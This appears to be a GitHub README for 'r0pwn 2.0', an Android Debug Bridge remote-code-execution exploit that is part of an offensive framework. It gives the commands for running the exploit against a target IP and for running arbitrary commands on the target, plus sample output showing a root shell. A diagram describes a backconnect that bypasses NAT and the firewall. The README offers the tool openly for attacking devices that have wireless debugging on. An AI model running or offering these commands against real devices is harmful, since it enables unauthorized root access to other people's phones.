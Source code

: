 # r0pwn 2.0

*hmm...*

    Android Debug Bridge RCE exploit.

## Table of contents

* [Official Release](#release)
* [Dependencies](#dependencies)
* [Exploiting](#exploiting)
* [Code Substitution](#substitution)
* [Exploit Algorithm](#algorithm)
* [Exploit Credits](#credits)

## Release

This is a repo of an exploit, but this exploit is a part of the Ghost Framework developed by @entynetproject.

[Ghost Framework](https://github.com/entynetproject/ghost)

## Dependencies

* `android-platform-tools`

## Exploiting

```shell
python3 exploit.py <target>
```

**NOTE:** Target should have wireless debugging turned on

```shell
root@kali:~/r0pwn# python3 exploit.py 192.168.1.75

======================
r0pwn by Ivan Nikolsky
======================

Android Debug Bridge RCE exploit.

exploiting 192.168.1.75...
root@nevada:~# whoami
root
root@nevada:~#
```

## Substitution

```shell
root@kali:~/r0pwn# python3 exploit.py <target> -s <code>
```

**NOTE:** Angry substitution will not work without SUID/root!

```shell
root@kali:~/r0pwn# python3 exploit.py 192.168.1.75 -s whoami

======================
r0pwn by Ivan Nikolsky
======================

Android Debug Bridge RCE exploit.

exploiting 192.168.1.75...
substituting whoami...
root
```

## Algorithm

```
                    backconnect (over ADB)
               +------------------------------+
               |                              |
attacker --- r0pwn --- NAT -+- Firewall -+- target
                            |            |
                            +------------+
                                bypass
```

## Credits

**Authors:**

* Ivan Nikolsky (@enty8080) - `research` and `development`.

**Special Thanks:**

* [PhoneSploit](https://github.com/metachar/PhoneSploit) - thanks for `inspiration`.
